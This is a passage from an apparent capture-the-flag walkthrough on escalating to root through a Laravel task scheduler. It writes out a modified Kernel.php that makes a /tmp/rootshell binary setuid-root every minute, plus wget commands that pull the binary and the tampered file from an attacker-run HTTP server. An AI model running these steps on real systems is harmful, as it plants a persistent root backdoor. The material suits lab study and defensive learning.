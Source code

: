 ```php
     * Define the application's command schedule.
     *
     * @param  \Illuminate\Console\Scheduling\Schedule  $schedule
     * @return void
     */
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('chown root:root /tmp/rootshell;chmod 4755 /tmp/rootshell')->everyMinute();
        //          ->hourly();
    }

    /**
     * Register the Closure based commands for the application.
     *
     * @return void
     */
    protected function commands()
    {
        require base_path('routes/console.php');
    }
}
```

Now we can upload our files to the tartget machine. 

On your attacker machine, run the following command:

```bash
python3 -m http.server 8000
```

On the target machine, run the following commands:

```bash
cd /tmp/
wget http://10.10.14.12:8000/rootshell
cd /var/www/laravel/app/Console
wget http://10.10.14.12:8000/Kernel.php
mv Kernel.php.1 Kernel.php
```

After waiting for a couple minutes, we can see the file permissions changed:

![Before](screenshots-storage/rootshell_perm1.png)
